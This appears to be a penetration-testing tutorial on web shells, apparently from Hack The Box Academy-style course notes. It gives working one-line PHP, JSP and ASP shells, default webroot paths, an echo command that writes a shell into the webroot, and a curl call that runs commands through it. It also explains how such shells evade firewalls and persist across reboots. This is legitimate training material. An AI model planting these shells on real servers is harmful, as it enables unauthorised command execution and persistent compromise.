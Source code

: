 # Web Shell

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

### jsp

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```aspnet
<% eval request("cmd") %>
```

## **Uploading a Web Shell**

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. <mark style="color:green;">`shell.php`</mark> and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server                                 | Default Webroot        |
| ------------------------------------------ | ---------------------- |
| <mark style="color:green;">`Apache`</mark> | /var/www/html/         |
| <mark style="color:green;">`Nginx`</mark>  | /usr/local/nginx/html/ |
| <mark style="color:green;">`IIS`</mark>    | c:\inetpub\wwwroot\\   |
| <mark style="color:green;">`XAMPP`</mark>  | C:\xampp\htdocs\\      |

We can check these directories to see which webroot is in use and then use <mark style="color:green;">`echo`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a <mark style="color:green;">`PHP`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> shell with the following command:

```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## **Accessing Web Shell**

Once we write our web shell, we can either access it through a browser or by using <mark style="color:green;">`cURL`</mark>. We can visit the <mark style="color:green;">`shell.php`</mark> page on the compromised website, and use <mark style="color:green;">`?cmd=id`</mark> to execute the <mark style="color:green;">`id`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> command:

![](https://academy.hackthebox.com/storage/modules/33/write\_shell\_exec\_1.png)

Another option is to use <mark style="color:green;">`cURL`</mark>:

```bash
lojique@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on <mark style="color:green;">`80`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> or <mark style="color:green;">`443`</mark>, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.
